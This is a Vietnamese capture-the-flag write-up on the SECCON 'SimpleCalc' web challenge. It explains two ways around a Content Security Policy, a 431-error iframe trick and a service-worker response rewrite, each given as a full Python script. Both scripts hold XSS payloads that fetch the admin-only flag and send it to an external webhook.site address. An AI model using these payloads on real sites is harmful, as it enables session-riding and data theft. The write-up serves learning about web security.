



# SimpleCalc

Sau khi xem source thì ta có thể dễ dàng thấy được đây là một bài client side. 

Ta cần GET tới `/flag` để lấy được flag



Request get cần phải có cookie của admin và header phải có trường `X-FLAG`.

Ứng dụng web sử dụng CSP như sau:



File `js/index.js` như sau:



## Vấn đề:

Do ở file `bot.js` đặt cookie là httpOnly. Nên ban đầu mình nghĩ là nếu sử dụng `window.open()` tới `/flag` thì sẽ có admin cookie nhưng lại không thêm được header `X-FLAG`. Còn nếu muốn thêm header `X-FLAG` thì lại không GET tới được `/flag` do CSP không cho phép truy vấn tới gì ngoài `/js/index.js`.

Và thế là mình kẹt ở đây 🥹

## Solution

Sau giải mình có xem writeup thì thấy người ta làm như sau.

### Unintended Solution
```py
import requests

URL = "http://simplecalc.seccon.games:3000/report"
payload = """
var f=document.createElement('iframe');
f.src=`http://localhost:3000/js/index.js?q=${'a'.repeat(20000)}`;
document.body.appendChild(f);
f.onload = () => {
    f.contentWindow.fetch("/flag", {headers: {"X-FLAG": "a"}, credentials: "include"})
    .then(res => res.text())
    .then(flag => location="https://webhook.site/e01d7090-2956-4acf-b10f-62bcde2ddf4f?q="+flag);
}

"""
print(payload)
data = {
    'expr': payload
}

print(requests.post(URL, data=data).text)
```

Tạo một iframe tới `/js/index.js` (do CSP chỉ cho phép như thế), nhưng làm cho URL rất dài và browser sẽ báo lỗi 431 do URL dài quá. Khi URL quá dài thì Chrome sẽ báo lỗi và chuyển hướng tới trang `chrome-error://chromewebdata/`, tuy nhiên trong iframe thì không chuyển hướng và tạo ra một page cùng domain nhưng lại không có CSP. Từ đó dễ dàng lấy được flag.

### Intended solution
Sử dụng service worker để sử response do server trả về.

```py

import requests
from urllib.parse import quote

URL = "http://simplecalc.seccon.games:3000/report"
# URL = "http://localhost:3000/report"
payload = """
serviceWorkerCode = `
console.log('here');

  // Thêm vào để phù hợp với logic chương trình, làm chương trình không báo lỗi.
  // Khi chỉ xem xét kỹ thuật sử dụng service workder thì nên bỏ qua đoạn này.
  document = {
    getElementById: () => {return {innerText: 1}}
  }

  self.addEventListener('fetch', function(event) {
    console.log(event);
    if (/index.js/.test(event.request.url))
    {
      headers = new Headers();
      headers.set('Content-Type', 'text/html');
      event.respondWith(new Response("<script>fetch('/flag', {credentials: 'include', headers: {'X-FLAG': 1}}).then(res=>{return res.text()}).then(flag=>{console.log(flag);fetch('https://webhook.site/e01d7090-2956-4acf-b10f-62bcde2ddf4f?q='+encodeURIComponent(flag))})</script>", {headers:headers}))
    }
  });

  1;
`;

navigator.serviceWorker.register('/js/index.js?expr=' + encodeURIComponent(serviceWorkerCode));

setTimeout(()=>{location='/js/index.js'}, 2000);
1;
"""
print(payload)
data = {
    'expr': payload
}

print("http://localhost:3000?expr=" + quote(payload))

print(requests.post(URL, data=data).text)

```

Sử dụng `navigator.serviceWorker.register('/js/index.js?expr=' + encodeURIComponent(serviceWorkerCode));` để register service worker. Sau đó browser sẽ get tới `/js/index.js` và chạy, bên trong `/js/index.js` có `eval(expr)` nên có thể attacker điều khiển được service worker. Từ đó attack sẽ thêm event listener là mỗi khi fetch sẽ trả về response với body là XSS payload và không có CSP header. Sau đó redirect về `/js/index.js` để trigger event listner.

## Note:
Nếu kẹt quá như [trên](#vấn-đề) thì nên nghĩ qua một hướng đó là thay đổi response của server trả về client. Ví dụ như:
* Sinh lỗi 431 -> Không còn CSP.
* Sử dụng service worker sửa repsonse trả về -> Không còn CSP.